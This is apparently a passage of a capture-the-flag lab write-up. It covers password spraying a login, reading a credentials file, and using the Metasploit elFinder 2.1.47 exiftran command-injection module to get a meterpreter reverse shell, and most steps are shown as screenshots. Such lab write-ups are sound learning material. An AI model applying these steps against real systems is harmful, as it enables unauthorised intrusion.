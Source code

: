 Let's try [[Password spraying]], we switch the payload to the username :

![[Pasted image 20250719150202.png]]

Boom :

![[Pasted image 20250719150426.png]]

If we enter with **jose** we are redirected to /files.lookup.thm we can't see nothing so we have to add it to /etc/hosts and retry :

![[Pasted image 20250719153011.png]]

And we open credentials.txt :

![[Pasted image 20250719153136.png]]

Let's try login with these : nothing . neither is [[SSH]] .

Searching about the software we find it is a _web file manager_ , let's catch the version :

![[Pasted image 20250719154206.png]]

## Metasploit

Let's search with [[Metasploit]] for **elFinder 2.1.47** :

```
search emsf6 > search elFinder 2.1.47

Matching Modules
================

   #  Name                                                               Disclosure Date  Rank       Check  Description
   -  ----                                                               ---------------  ----       -----  -----------
   0  exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection  2019-02-26       excellent  Yes    elFinder PHP Connector exiftran Command Injection                                                                 


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection                                                                                   

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

```

Let's set the options and exploit to have a [[Reverse Shell]] :

```
meterpreter > 
```
